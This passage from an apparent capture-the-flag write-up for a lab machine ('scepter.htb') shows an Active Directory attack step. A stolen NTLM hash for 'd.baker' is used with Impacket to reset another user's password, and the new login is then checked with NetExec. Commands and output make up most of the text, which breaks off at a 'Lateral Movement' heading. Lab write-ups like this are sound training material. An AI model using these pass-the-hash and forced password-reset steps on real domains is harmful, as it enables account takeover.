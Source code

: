 ![](images/2025-04-20_05-47_bloodhound_dbaker_forcechangepassword.png)

We used `Impacket` and the `hash` of `d.baker` to `change` the `password` of `a.carter`.

```shell
┌──(kali㉿kali)-[~]
└─$ impacket-changepasswd 'scepter.htb'/'a.carter'@10.129.248.205 -reset -altuser 'd.baker' -althash :'18b5fb0d99e7a475316213c15b6f22ce'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

New password: 
Retype new password: 
[*] Setting the password of scepter.htb\a.carter as scepter.htb\d.baker
[*] Connecting to DCE/RPC as scepter.htb\d.baker
[*] Password was changed successfully.
[!] User no longer has valid AES keys for Kerberos, until they change their password again.
```

| Password    |
| ----------- |
| newpassword |

After we changed the `password` of `a.carter` we verified it quickly using `NetExec`.

```shell
┌──(kali㉿kali)-[~]
└─$ netexec smb 10.129.248.205 -u 'a.carter' -p 'newpassword'
SMB         10.129.248.205  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:scepter.htb) (signing:True) (SMBv1:False)
SMB         10.129.248.205  445    DC01             [+] scepter.htb\a.carter:newpassword
```

## Lateral Movement
